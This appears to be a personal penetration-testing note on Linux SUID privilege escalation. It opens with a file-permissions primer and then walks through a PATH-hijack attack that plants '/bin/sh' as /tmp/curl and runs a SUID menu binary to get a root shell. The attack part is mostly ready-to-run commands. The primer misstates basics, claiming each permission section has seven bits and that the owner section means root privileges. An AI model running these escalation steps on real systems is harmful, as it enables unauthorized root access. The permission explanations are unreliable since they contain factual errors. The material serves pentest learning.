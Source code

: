 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Abusing SUID

**Permissions Basics**

Permissions on folders and files are broken up into 4 categories when viewing a listing “ls -la”.

example of the sections broken apart:
- rwx rwx rwx (file,read write execute,read write execute,read write execute)

example of what may be seen in an actual listing:
-rwxr-xr-- (file,read write execute,read execute, read)

The first section indicates if it is a file or a directory “-” or "d".
The second section indicates root privileges “rwx” or Read, Write, Execute
The third section indicates group privileges “rwx” or Read, Write, Execute
The fourth section indicates all other user privileges “rwx” or Read, Write, Execute

Each section is broken into 7 bits.

The first counter (read) is worth 4 bits
The second counter (write) is worth 2 bits
The third counter (execute) is worth 1 bits

ex. “chmod 777 file.sh” gives rwx for all 3 sections of the file permissions

Locating files with SUID Bits

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

After locating files/binaries with the SUID Bit enabled, search GTFOBins for additional/potential escalation points

**SUID Binary Copy and Path Replacement**

This can be useful if you find a binary/script that has root privs that is calling other applications (i.e curl, ifconfig, uname)

Start with locating suid bit binaries/scripts

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

ex. /usr/bin/menu

When you run manual, you notice that the outputs for each option give you outputs from other binaries (like in the example above).

Echo /bin/sh into a file and name it one of the binary names that is being called from the menu binary/script

~~~bash
echo /bin/sh > /tmp/curl
~~~

chmod the binary with RWX permissions

~~~bash
chmod 777 /tmp/curl
~~~

Add the binary as a $PATH environment variable

~~~bash
export PATH=/tmp:$PATH
~~~

Re-run the menu binary and select the option that has the binary that you just created the file for and you should now have a root shell

![[Pasted image 20230102132213.png]]
